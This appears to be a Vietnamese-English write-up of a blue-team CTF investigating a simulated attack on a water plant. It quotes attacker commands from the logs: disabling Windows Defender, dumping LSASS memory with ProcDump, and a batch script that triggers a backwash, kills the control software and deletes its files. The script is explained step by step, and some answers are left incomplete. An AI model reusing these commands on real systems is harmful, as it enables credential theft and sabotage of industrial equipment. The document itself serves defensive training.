<!-- notion-metadata-start -->
*📅 Published: 2026-05-01 19:56 | 🔄 Last Updated: 2026-05-08 13:29*
<!-- notion-metadata-end -->
---

[https://cyberdefenders.org/blueteam-ctf-challenges/hafnium-apt/](https://cyberdefenders.org/blueteam-ctf-challenges/hafnium-apt/)

### Q1: What is the name of the threat detected by Windows Defender? {#3537b0eb61a480ca90f6cfa364b7799b}



Trojan:Win32/Ceprolad.A

### Q2: What was the full URL that Windows Defender blocked an archive from being downloaded? {#3537b0eb61a480b5ae2be529114b2354}

Mar 12, 2021 @ 08:27:57.181

https://download.sysinternals.com/files/Procdump.zip

### Q3: What was the full command used by the attacker to successfully download the archive? {#3537b0eb61a4803c81aaf6369ca81dfe}

Mar 12, 2021 @ 08:22:34.297  winlog.event_id: 1 and winlog.event_data.OriginalFileName: "CertUtil.exe”

certutil.exe  -urlcache -split -f "https://download.sysinternals.com/files/Procdump.zip" procdump.zip



powershell -command "Expand-Archive c:\tmp\procdump.zip c:\tmp\\”



### Q4: Which user account was the attacker using when the archive was successfully downloaded to the host? {#3537b0eb61a4804d8deafe83b466479a}

Administrator

### Q5: What command was used by the attacker on the host to try and disable Windows Defender via the command line? {#3537b0eb61a480449f16eeb179579a3b}

The `sc.exe` command is **a powerful Windows command-line utility used to communicate with the Service Control Manager (SCM) to manage system services**. It allows you to create, start, stop, query, and delete services on both local and remote computers

Mar 12, 2021 @ 08:19:40.300 sc  stop WinDefend



### Q6: Provide the date and time when Windows Defender's real-time protection was disabled. {#3537b0eb61a48039ad05f6cfad784bb1}

Event id 5001



Mar 12, 2021 @ 08:21:35.746

### Q7: Which version of ProcDump did the attacker run on the host? {#3537b0eb61a480949633e1e35f8d129e}

Event id 1 có file version



### Q8: Where is the executable located on the disk that was targeted by Procdump to dump its process memory? {#3537b0eb61a4802088ddd6a1d00f1994}

C:\windows\system32\lsass.exe

Mar 12, 2021 @ 08:29:25.737 procdump  -ma lsass.exe lsass.dmp

### Q9: What was the location of the dump file created from the process dumped with Procdump? {#3537b0eb61a48069ad4dcdcf0f4ec3f1}

C:\tmp\procdump.exe prodump ở đây nên lsass.dmp cũng vậy

C:\tmp\lsass.dmp



### Q10: Provide the SHA256 hash value of the Teamviewer installation to check if the legitimate version was installed. {#3537b0eb61a480458d57cca94c3aedfc}

Mar 10, 2021 @ 04:40:22.461 vậy là tải teamviewer bình thường

MD5=7B1B9039FED3AB2B6FD24E6F046D0E52,SHA256=D256F177A3DD8E7346B3FA9D32C4690B611F104E7CE175E99C5757BE6EEF229B,IMPHAS



### Q11: What was the domain looked up in the first DNS query done by the TeamViewer application after it was installed? {#3537b0eb61a4804096c6dc9f41d70869}



[router7.teamviewer.com](http://router7.teamviewer.com/)

### Q12: Determine how the attacker gained access to the Administrator account. What is the type of the attack? {#3537b0eb61a48030ba36ef8c196c912f}

Brute-force attack

Mar 11, 2021 @ 20:19:09.969



### Q13: What IP address can we send to the Firewall team for blocking? {#3537b0eb61a480188742c56f0dcd93b3}

8.36.216.58 là ip brute-force ở trên

### Q14: What was the hostname from where the attacker launched their attack? {#3537b0eb61a4801396accb9a3ff5ba68}

FancyPoodle - là trường workstation name đôi khi hacker không biết xóa khi dùng NTLM

### Q15: Provide the first timestamp from the logs where you can see the attacker was successful in logging. {#3537b0eb61a480e2a606e98e07072bab}

Mar 11, 2021 @ 20:19:09.969

Ta tìm thử thời gian sau thời gian này 



Mar 11, 2021 @ 20:26:52.043

### Q16: When the attacker successfully logged into the host using RDP for the first time? {#3537b0eb61a480e985bdd8eb6c07f950}

Mar 12, 2021 @ 08:03:00.011



### Q17: When did the attacker log off from the first RDP session? {#3537b0eb61a4801ebf16d0abe973adbb}



Mar 12, 2021 @ 09:06:10.948 nhưng targetlogonID không phải là kết quả

Ta dùng event ID 23 của `Microsoft-Windows-TerminalServices-LocalSessionManager/Operational` indicates a successful **Remote Desktop Services (RDP) session logoff**

**Nguyên nhân 1: Kẻ tấn công chỉ "Disconnect" (Ngắt kết nối) chứ không "Logoff" (Đăng xuất)**

Đây là hành vi cực kỳ đặc trưng khi dùng RDP:
Thay vào đó, nó sinh ra **Event 4779** (trong log Security) và **Event 24** (trong log TerminalServices - Session disconnected).



### Q18: What command did the attacker run on the host which would've helped him understand what Antivirus software was running on the system? {#3537b0eb61a4808ca330d1f975839def}

tasklist

### Q19: Which command did the attacker run on the host that would have helped him understand the network interface configuration of the host? {#3537b0eb61a480539c07f8af161a59d9}

ipconfig  /all

### Q20: What was the name of the user account added by the attacker? {#3537b0eb61a4801097a2d8d5c1de4894}

Administrator1 

### Q21: Based on information from the public, the first visual signs of raw sewage spilling into the river from the plant were around 14:00 local time on March 12th, 2021. According to the plant technicians, it would take at least 45 minutes for the plant to excrete sewage into the river once the backwash mode was activated. A file was created on the system that matches the above timelines and, based on its content, could likely have been used by the attackers to initiate the plant backwash. What was the name of this file? {#3537b0eb61a48061ad1ad27efc3da65b}

Ta kiểm tra từ thời điểm hacker đăng nhập RDP vào admin lần đầu tiên



Mar 12, 2021 @ 11:09:03.439 backwash.bat tìm thấy file bat khá tường minh

### Q22: Which application was responsible for downloading the malicious file to the host? {#3537b0eb61a4808a9b15fc3c2312a402}

chrome.exe

### Q23: From which website was this malicious file downloaded? {#3537b0eb61a4808da0b3e7aba72a6f1b}

Ta tìm event id 3 xung quanh thời điểm đó hoặc dùng event id 22

wetransfer.com

Ta đã thấy một **Zone.Identifier và có thể xem nó bằng eventid 15**



Lòi ra một mớ thông tin liên quan

### Q24: After this file was downloaded, the attacker appeared to have moved it to another directory on the host. What was the new path of the file? {#3537b0eb61a48076bb5ecf02e50720b9}

ta thấy được chuyển từ C:\Users\Administrator\Downloads\backwash.bat sang C:\backwash.bat



### Q25: Based on the available logs, there are limited indications that the downloaded malicious file was executed on the host. Provide the earliest timestamp which shows proof of the file being executed on the host. {#3537b0eb61a480b39b19d96d73843d92}

Mar 12, 2021 @ 11:09:03.439 start "C:\Program Files\ifak\SIMBA#4.3\Simba.exe --function backwash --interruptable no" timeout /t 30 /nobreak taskkill /F /IM simba.exe /T taskkill /F /IM simba.exe /T taskkill /F /IM simba.exe /T taskkill /F /IM simba.exe /T taskkill /F /IM simba.exe /T DEL /F /Q "C:\Program Files\ifak\SIMBA#4.3\*”

**Bước 1: Kích hoạt ứng dụng mục tiêu**

> `start "C:\Program Files\ifak\SIMBA#4.3\Simba.exe --function backwash --interruptable no"`

- `start`: Lệnh của Windows để khởi chạy một tiến trình/cửa sổ mới độc lập.
- Kẻ tấn công đang cố tình chạy một phần mềm có tên là `Simba.exe` (có vẻ là một phần mềm chuyên dụng/công nghiệp) với các tham số ép buộc: gọi hàm `backwash` (rửa ngược) và không cho phép ngắt (`interruptable no`). Có thể đây là hành vi lợi dụng một tính năng hợp lệ của phần mềm để gây quá tải hoặc thao tác sai lệch hệ thống vật lý.

**Bước 2: Câu giờ**

> `timeout /t 30 /nobreak`

- Tạm dừng (đóng băng) cái script này trong vòng đúng **30 giây**.
- `/nobreak`: Ngăn không cho người dùng bấm phím bất kỳ để bỏ qua thời gian chờ.
- **Mục đích:** Hắn đang cho phần mềm `Simba.exe` có đủ 30 giây để thực thi xong cái lệnh `backwash` phá hoại kia trước khi chuyển sang bước tiếp theo.

**Bước 3: Bức tử tiến trình (Nhồi lệnh)**

> `taskkill /F /IM simba.exe /T` (Lặp lại 5 lần)

- `taskkill`: Lệnh tiêu diệt tiến trình đang chạy.
- `/F` (Force): Ép buộc tắt ngay lập tức, không chờ ứng dụng phản hồi lưu dữ liệu.
- `/IM simba.exe`: Chỉ định tên tiến trình cần giết.
- `/T` (Tree): Giết luôn cả các tiến trình con do Simba.exe sinh ra.
- **Mục đích:** Việc lặp lại lệnh này 5 lần là thủ thuật rất "chợ búa" của các tay viết malware (Script kiddie) để đảm bảo chắc chắn 100% ứng dụng này phải chết, đề phòng trường hợp phần mềm có cơ chế tự khởi động lại hoặc có nhiều luồng (threads) cứng đầu.

**Bước 4: Tiêu hủy / Xóa sổ**

> `DEL /F /Q "C:\Program Files\ifak\SIMBA#4.3\*"`

- `DEL`: Lệnh xóa file.
- `/F` (Force): Ép xóa cả những file đang bị đặt thuộc tính Read-only.
- `/Q` (Quiet): Chế độ im lặng, không hiện bảng hỏi "Bạn có chắc chắn muốn xóa không?".
- `\*`: Xóa **TOÀN BỘ** các file nằm trong thư mục cài đặt của phần mềm SIMBA.
- **Mục đích:** Sau khi lợi dụng xong, kẻ tấn công xóa sạch phần mềm này để làm tê liệt hệ thống (Denial of Service/Sabotage) và che giấu các dấu vết hoặc file cấu hình mà hắn vừa can thiệp.

Vào lúc 2021-03-12 11:10 thì những nội dung trong file backwash.bat được thực hiện



### Q26: What command contained in the malicious file, if successfully run on the host, would you expect to have initiated the plant’s backwash mode {#3537b0eb61a480a19d80f5cacd8adacc}

C:\Program Files\ifak\SIMBA#4.3\Simba.exe --function backwash --interruptable no

### Q27: Prior to switching to a manual override, the technicians attempted to open the modified Simba plant simulation software application in order to stop the backwash sequence. However, they could not get the application to launch. What command from the attacker's script would have rendered the application unusable? {#3537b0eb61a480988d86eaddafe716dc}

`DEL /F /Q "C:\Program Files\ifak\SIMBA#4.3\*"`

Như đã phân tích ở trên

# Tổng kết {#3547b0eb61a4802cbb9ac537bbeabc59}

Event id 1 có file version

Ta dùng event ID 23 của `Microsoft-Windows-TerminalServices-LocalSessionManager/Operational` indicates a successful **Remote Desktop Services (RDP) session logoff**

**Nguyên nhân 1: Kẻ tấn công chỉ "Disconnect" (Ngắt kết nối) chứ không "Logoff" (Đăng xuất)**

Đây là hành vi cực kỳ đặc trưng khi dùng RDP:
Thay vào đó, nó sinh ra **Event 4779** (trong log Security) và **Event 24** (trong log TerminalServices - Session disconnected).

